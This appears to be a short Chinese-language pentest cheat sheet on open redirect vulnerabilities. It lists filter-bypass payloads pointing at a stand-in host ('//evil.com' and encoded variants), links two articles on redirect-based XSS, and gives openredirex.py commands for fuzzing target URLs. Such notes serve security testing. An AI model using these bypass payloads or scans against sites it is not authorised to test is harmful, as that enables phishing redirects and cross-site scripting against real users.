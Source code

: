 # 跳转漏洞

## Bypass 

```
//evil.com
\/\/evil.com
evil%0a%http://0d.com
evil%http://00.com
https:https://target.com
```

[Forcing HTTP Redirect XSS](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/)

[Forcing Firefox to Execute XSS Payloads during 302 Redirects](https://www.gremwell.com/firefox-xss-302)



## 自动化扫描

```
python3 openredirex.py -l haodf.txt -p payloads.txt --keyword FUZZ
python3.7 openredirex.py -u "https://vulnerable.com/?url=FUZZ" -p payloads.txt --keyword FUZZ
```

